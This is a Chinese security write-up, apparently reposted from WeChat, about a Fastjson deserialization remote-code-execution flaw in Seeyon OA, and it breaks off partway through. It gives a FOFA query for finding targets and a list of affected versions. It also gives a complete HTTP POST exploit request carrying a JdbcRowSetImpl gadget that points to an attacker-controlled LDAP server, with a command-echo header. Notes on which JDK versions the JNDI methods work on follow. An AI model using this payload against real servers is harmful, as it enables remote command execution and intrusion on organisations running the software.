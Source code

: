 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yTuQLqqvikwo1KfK-zGBBA)

**STATEMENT**

**声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。

雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

**NO.1 影响范围**

FOFA："seeyon" && city="xxxx" && after="2021-01-01"

```
V7.1、V7.1SP1
V7.0、V7.0SP1、V7.0SP2、V7.0SP3
V6.1、V6.1SP1、V6.1SP2
V6.0、V6.0SP1
V5.6、V5.6SP1
```

**NO.2 POC**

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 10.1.2.87
Content-Length: 221
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
cmd: ipconfig
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=26FF8158707BB0896A3ACD66EB92DD41; loginPageURL=
Connection: close

_json_params={"v47":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"xxx":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xx.xxx.xxx.xxx:1289/TomcatBypass/TomcatEcho","autoCommit":true}}
```

**NO.3** **漏洞复现**

**漏洞检测**

**Jndi 影响范围：**  
1、rmi 的利用方式：适用 jdk 版本：JDK 6u132、JDK 7u122、JDK 8u113 之前  
2、ldap 的利用方式：适用 jdk 版本：JDK 11.0.1、8u191、7u201、6u211 之前

**区分 FastJson 与 Jackson：**  
1）不闭合花括号看报错信息方法  
2）减少参数方法  
  {"name":"S", "age":21}//Fastjson 是不会报错  
  {"name":"S", "age":21,"xxx":123}// Jackson 语法相对比较严格, 会报错  
3）fastjson 报错关键词: 
